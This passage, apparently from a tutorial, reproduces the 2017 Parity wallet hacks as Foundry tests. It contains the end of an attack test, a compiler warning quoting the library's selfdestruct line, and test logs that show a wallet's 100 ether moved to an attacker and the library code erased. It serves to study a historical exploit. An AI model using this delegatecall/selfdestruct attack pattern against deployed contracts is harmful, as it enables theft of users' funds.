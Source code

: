 ```solidity
        attacker.attack();
        vm.stopPrank();

        // 使用 vm.etch 强制把库地址的代码置空，模拟 2017 年 selfdestruct
        vm.etch(address(lib), bytes(""));

        // 确认库代码已经被清空
        uint256 libCodeLen = address(lib).code.length;
        emit log_named_uint("Library code length after attack", libCodeLen);
        assertEq(libCodeLen, 0, "library should have no code after selfdestruct");

        // 代理 delegatecall 再调用 foo() 应该失败
        (bool ok2, ) = address(proxy).call(abi.encodeWithSignature("foo()"));
        assertFalse(ok2, "call after attack should fail");
    }
}
```  

**执行测试：**

```bash
➜  counter git:(main) ✗ forge test --match-path test/ParityHack.t.sol -vvv
[⠊] Compiling...
[⠢] Compiling 2 files with Solc 0.8.29
[⠆] Solc 0.8.29 finished in 1.08s
Compiler run successful with warnings:
Warning (5159): "selfdestruct" has been deprecated. Note that, starting from the Cancun hard fork, the underlying opcode no longer deletes the code and data associated with an account and only transfers its Ether to the beneficiary, unless executed in the same transaction in which the contract was created (see EIP-6780). Any use in newly deployed contracts is strongly discouraged even if the new behavior is taken into account. Future changes to the EVM might further reduce the functionality of the opcode.
  --> src/WalletLibrary.sol:14:9:
   |
14 |         selfdestruct(payable(msg.sender)); // 直接摧毁 WalletLibrary 本身
   |         ^^^^^^^^^^^^


Ran 2 tests for test/ParityHack.t.sol:ParityHackTest
[PASS] testJulyHack() (gas: 591767)
Logs:
  Wallet Balance Before: 100000000000000000000
  Hacker Balance Before: 0
  Wallet Balance After: 0
  Hacker Balance After: 100000000000000000000

[PASS] testNovemberHack() (gas: 701066)
Logs:
   Wallet Library Active
  Library code length after attack: 0

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.04ms (776.48µs CPU time)

Ran 1 test suite in 352.15ms (1.04ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```  

---